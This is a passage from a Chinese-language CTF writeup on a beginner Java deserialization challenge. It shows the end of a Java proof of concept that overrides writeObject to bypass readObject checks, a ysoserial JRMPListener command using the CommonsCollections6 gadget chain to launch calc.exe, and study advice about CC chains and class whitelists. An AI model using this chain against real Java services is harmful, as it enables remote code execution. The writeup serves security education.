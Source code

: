 ```java
    }

    public static void setFieldValue(String name, Object value, Object obj) throws Exception{
        Field f = obj.getClass().getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, value);
    }

    // put in User
    private void writeObject(ObjectOutputStream out) throws Exception {
        out.writeInt(114514);
        out.writeByte(2);
        out.defaultWriteObject();
    }
}
```

写一个简单的poc绕过if判断然后vps上执行

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "calc.exe"
```

就能rce了

当然，本次比赛面对的更多是没学过java的同学，所以才会有**最最最最基础的java题**（~~而不是**来吧展示**~~

所以你在做这道题的时候，就不要想着能一个下午或者一个晚上做出这道题，对于完全不了解java安全的你，更应该尝试了解一下在ctf中java题是怎么样的（对于不了解java基本语法的，那就需要学更多了

你会在看到源码的发现反序列化点的时候，尝试搜索 **ctf java反序列化**

在你看了足够多的文章之后，你能了解到CC链这个可以直接rce的包，你也在本题的环境中发现了这个包

然后你这个时候应该去**花很多时间**研究一下**CC链**的原理，最好可以跟着调试一下，这时候你就得到了一个可以通过反序列化rce的payload

当然，你打了之后会发现并不能打通

你再次看了源码之后发现源码中反序列化的类和你调试的时候用的不一样

![image-20230511000819131](Web_Writeup.assets/image-20230511000819131.png)

你看这个文件之后加上一定是搜索很容易就能知道这是一个白名单

于是你会看向User类，因为前面的调试你已经有了不少经验，你知道反序列化的入口是`readObject`，你发现这个地方重写了`readObject`，这里也只有可能是唯一出现漏洞给你rce的地方了

你首先会尝试绕过`readObject`中的几个判断，简单写了一个poc之后，你发过去它却报错了，你的POC部分很可能是以下这样

![image-20230511001504939](Web_Writeup.assets/image-20230511001504939.png)

这时候你该寻找一下你代码的问题（~~而不是将poc甩给出题人问为什么反序列化不成功~~
